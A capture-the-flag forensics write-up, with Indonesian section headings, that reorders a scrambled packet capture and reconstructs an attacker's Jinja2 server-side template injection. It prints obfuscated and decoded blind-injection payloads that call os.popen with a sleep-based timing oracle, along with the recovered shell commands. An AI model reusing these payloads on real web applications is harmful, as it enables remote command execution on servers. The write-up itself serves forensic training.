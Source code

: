 ## Judul Soal
Messed-Up

## Deskripsi Soal
>If I was more careful enough to organize my stuffs.<br>Author: コト

## Hint Soal
- It's been a while, since I managed my task in a proper order


## Penjelasan Penyelesaian Soal

Given a `xz compressed` file, contained packet-capture file named `messed-up.pcap`.<br><br>
Based on `static analysis`, we found several improper `packet.frame` like negative `time difference` & weird `3-way of handshake` (ACK packet without preceeded SYN-ACK or SYN packet) 

```bash
$ tshark -r messed-up.pcap | head                                          

    1   0.000000 0.000000000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 40920 [ACK] Seq=1 Ack=1 Win=499 Len=0 TSval=4208859833 TSecr=1930426915
    2 295.713297 295.713297000   172.90.0.2 → 172.90.0.1   HTTP 2671 HTTP/1.1 200 OK  (text/html)
    3 186.075311 -109.637986000   172.90.0.1 → 172.90.0.2   TCP 66 43954 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930612990 TSecr=4209045908
    4 256.836423 70.761112000   172.90.0.1 → 172.90.0.2   TCP 66 45172 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930683751 TSecr=4209116669
    5 507.653147 250.816724000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 49416 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=4209367486 TSecr=1930934528
    6 -184.626597 -692.279744000   172.90.0.1 → 172.90.0.2   TCP 66 37686 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1930242288 TSecr=4208675206
    7 172.427445 357.054042000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 43750 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=4209032260 TSecr=1930599342
    8 -301.420134 -473.847579000   172.90.0.2 → 172.90.0.1   HTTP 2671 HTTP/1.1 200 OK  (text/html)
    9 455.818461 757.238595000   172.90.0.1 → 172.90.0.2   HTTP 496 GET /login HTTP/1.1 
   10 -450.676476 -906.494937000   172.90.0.1 → 172.90.0.2   TCP 66 33238 → 80 [ACK] Seq=1 Ack=1 Win=501 Len=0 TSval=1929976238 TSecr=4208409156

```

According to the `hint`, we knew that each `frame.packet` were not in a proper order. Using `reordercap` we can restore the correct `packet capture`

```bash
$ reordercap messed-up.pcap ordered.pcap
$ tshark -r ordered.pcap | head  

    1   0.000000 0.000000000   172.90.0.1 → 172.90.0.2   TCP 74 32828 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=1929950335 TSecr=0 WS=128
    2   0.000055 0.000055000   172.90.0.2 → 172.90.0.1   TCP 74 80 → 32828 [SYN, ACK] Seq=0 Ack=1 Win=65160 Len=0 MSS=1460 SACK_PERM=1 TSval=4208383253 TSecr=1929950335 WS=128
    3   0.000080 0.000025000   172.90.0.1 → 172.90.0.2   TCP 66 32828 → 80 [ACK] Seq=1 Ack=1 Win=64256 Len=0 TSval=1929950335 TSecr=4208383253
    4   0.000246 0.000166000   172.90.0.1 → 172.90.0.2   HTTP 351 POST /register HTTP/1.1  (application/x-www-form-urlencoded)
    5   0.000275 0.000029000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 32828 [ACK] Seq=1 Ack=286 Win=64896 Len=0 TSval=4208383253 TSecr=1929950335
    6   0.091390 0.091115000   172.90.0.2 → 172.90.0.1   HTTP 502 HTTP/1.1 302 FOUND  (text/html)
    7   0.091408 0.000018000   172.90.0.1 → 172.90.0.2   TCP 66 32828 → 80 [ACK] Seq=286 Ack=437 Win=64128 Len=0 TSval=1929950426 TSecr=4208383344
    8   0.094483 0.003075000   172.90.0.1 → 172.90.0.2   HTTP 228 GET /login HTTP/1.1 
    9   0.094537 0.000054000   172.90.0.2 → 172.90.0.1   TCP 66 80 → 32828 [ACK] Seq=437 Ack=448 Win=64768 Len=0 TSval=4208383347 TSecr=1929950429
   10   0.098638 0.004101000   172.90.0.2 → 172.90.0.1   HTTP 2596 HTTP/1.1 200 OK  (text/html)
                                                                                                
```

Here we found several `HTTP` packet contained `Server Side Template Injection` (SSTI) as shown as:

```bash
$ tshark -r ordered.pcap -Y 'urlencoded-form' -Tfields -e urlencoded-form.value | head -12

guest,12345,test@123.com
12345,test@123.com
10+10
{{ 2*2 }}
{{ flag }}
{{ request }}
{{ config }}
{{ username }}
{{ ().__class__ }}
{% if username == username %} 1337 {% endif %}
{% set tes = username[0] %} {% if tes == username[0] %} 1337 {% endif %}
request[email[18]+email[-71]+email[25]+email[90]+email[3]+email[-27]+email[-78]+email[-8]+email[-93]+email[-95]+email[29]]

```

We also found a response `Non-number operation are not supported` that implies `webservice` only accept `numerical result`

Furthermore, we also found that `attacker` tried to conduct `Blind Injection` using `delay time` as the indicator. For example:

```
# Payload we found:

{% set p = request[email[54]+email[-61]+email[35]+email[-59]+email[-95]+email[-70]+email[-42]+email[-21]+email[-95]+email[-47]+email[79]][email[32]+email[-64]+email[71]+email[37]+email[49]+email[2]+email[-42]+email[37]+email[68]+email[-64]+email[32]][email[32]+email[-64]+email[-94]+email[45]+email[1]+email[37]+email[75]+email[1]+email[79]+email[68]+email[32]+email[32]][email[32]+email[-64]+email[1]+email[9]+email[35]+email[49]+email[36]+email[-21]+email[32]+email[-64]](email[-47]+email[68])[email[35]+email[49]+email[35]+email[80]+email[-17]] %}{% if p(email[35]+email[-11]+email[-53])[email[-60]+email[-16]+email[54]+email[-53]]()[5][email[32]+email[32]+email[-16]+email[48]+email[-64]+email[-64]](email[-42]) %} {{ p(email[-28]+email[37]+email[80]+email[-16]+email[35]+email[72]+email[-12]+email[11]+email[56]+email[57])[email[-60]+email[80]+email[-42]+email[43]]() }} {% endif %}


# After some clean-up:

{% set p = request[application][__globals__][__builtins__][__import__](os)[popen] %}{% if p(pwd)[read]()[5][__eq__](a) %} {{ p(sleep 0.75)[read]() }} {% endif %}

```

Thus, we need a way to exfiltrate each `packet.frame` that have > `0.75 s` time difference, in order to extract the correct `response text`.

Using the solver script, we obtained:

```bash
$ python2 sv.py       
$ pwd
/opt/app

$ ls flag*
flag.zip

$ cat flag.zip
sh: cat: not found

$ base64 flag.zip
UEsDBBQDAAAIAEeTRlFrhl3uRwAAAE4AAAAIAAAAZmxhZy50eHQFwUsKgDAMBcC9p2loV17mYTGW
UhIhiT/EuzvTWBaPPii/WzL4LhnGxZOCcBVH2EPaEAlSBoMClSPYANQjoHxmk64r5vubflBLAQI/
AxQDAAAIAEeTRlFrhl3uRwAAAE4AAAAIACQAAAAAAAAAIIDAgQAAAABmbGFnLnR4dAoAIAAAAAAA
AQAYAAAP43/Tm9YBAA/jf9Ob1gEAjd8pDpzWAVBLBQYAAAAAAQABAFoAAABtAAAAAAA=

$ hostname
904db8da79f8

$ whoami
root

```

After extracting `flag.zip`, we finally found expected `flag.txt`